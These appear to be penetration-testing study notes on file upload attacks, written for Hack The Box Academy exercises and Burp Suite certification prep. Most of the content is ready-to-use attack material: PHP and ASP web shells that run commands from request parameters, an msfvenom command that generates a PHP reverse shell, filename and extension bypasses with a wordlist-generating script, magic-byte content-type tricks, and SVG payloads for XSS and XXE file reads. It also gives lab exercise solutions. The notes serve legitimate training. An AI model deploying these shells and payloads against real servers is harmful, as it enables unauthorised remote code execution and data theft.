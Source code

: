 # File Upload Attacks  

>[Burp Suite Certified Practitioner study notes on file upload bypass](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#file-uploads)  

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php echo file_get_contents('/etc/hostname'); ?>` | PHP script that executes to get the (hostname) on the back-end server [Arbitrary File Upload](https://academy.hackthebox.com/module/136/section/1260) |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<?php echo shell_exec($_GET[ "cmd" ]); ?>` | Alternative PHP Webshell using shell_exec function. |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| `/usr/share/seclists/Web-Shells` | List of webshells for frameworks such as: CFM,FuzzDB,JSP,Laudanum, Magento, PHP, Vtiger and WordPress. |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** | [Bypass the client-side file type validations](https://academy.hackthebox.com/module/136/section/1280) |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | [Blacklist Filters](https://academy.hackthebox.com/module/136/section/1288) Use Burp Suite intruder to upload a single file name with list possible extensions. Then use intruder again to perform GET request on all the files upload to identify PHP execution on target. |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** | [Whitelisting Extensions](https://academy.hackthebox.com/module/136/section/1289) |
| `shell.jpg.php` | Double Extension bypass example|
| `shell.php.jpg` | Reverse Double Extension |

### Extra Client Side  

>Client side html code alter to allow file upload validation bypass by removing `validate()`, optional clearing the `onchange` and `accept` values.  

![uploads-client-side-html](/images/uploads-client-side-html.png)  

### Extra Wordlist Script  

>Character Injection - Before/After Extension to generate list of possible filenames to bypass file upload filters on white or black listings.  

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.jpg" >> filenames_wordlist.txt
        echo "shell$ext$char.jpg" >> filenames_wordlist.txt
        echo "shell.jpg$char$ext" >> filenames_wordlist.txt
        echo "shell.jpg$ext$char" >> filenames_wordlist.txt
    done
done
```  

## Content/Type Bypass  

| **Command**   | **Description**   |
| --------------|-------------------|
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of [Web Content-Types](https://academy.hackthebox.com/module/136/section/1290) |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

>Example of the Payload code for the file being uploaded, `<?php echo file_get_contents('/flag.txt'); ?>`, add `GIF8` at top of file body and keep the file name as `shell.php`. The `Content-Type:` is then the injection payload position for Burp Suite Intruder using the above wordlists.  


## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |

# Exercises  

## Upload Filters    

>This [web server exercise](https://academy.hackthebox.com/module/136/section/1290) employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

>Client-Side  
>HTML script functions validation cleared before loading DOM.

![type-filters-exercise-step1](/images/type-filters-exercise-step1.png)  

>Blacklist & Whitelist  
>Fuzzing of file names with various character injections to the extensions reveal valid filenames, `shell.jpg:.phar`

>determine valid filename and extension.

>Content-Type & MIME-type  
The content type and mime type combination is checked by backend and fuzzing wordlist of content type, identify valid types as:  

```
Content-Type: image/gif
GIF8
```  

![type-filters-exercise-step](/images/type-filters-exercise-step3.png)  

>Get sensitive info flag: `GET /profile_images/shell.jpg:.phar`.  

## XSS & XXE in Uploads  

>Burp Sutie Certified Practitioner Study Exercises and notes:
* [BSCP - XXE via SVG Image upload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#xxe-via-svg-image-upload)  
* [BSCP - XSS SVG Upload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#xss-svg-upload)  

>This File Upload exercise contains an vulnerable upload functionality that should be secure against arbitrary file uploads. But the content of the files can execute server side to read sensitive files using XXE or trigger stored XSS.  

>XSS inside SVG image file: `htb.svg`, uploaded to target.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

>When XML SVG file is upload the XSS is triggered.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```  

>Above will render on the index landing page and retrieve the contents of `/flag.txt`.  

>Source code of PHP files can be trieved using Base64 to prevent execution on server, using below XML payload file upload:  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```  

![xxe-svg-upload-base64](/images/xxe-svg-upload-base64.png)  

# Skills Assessment - File Upload Attacks  

>[Extra Exercise](https://academy.hackthebox.com/module/136/section/1310)  

>You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.
>Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.  


 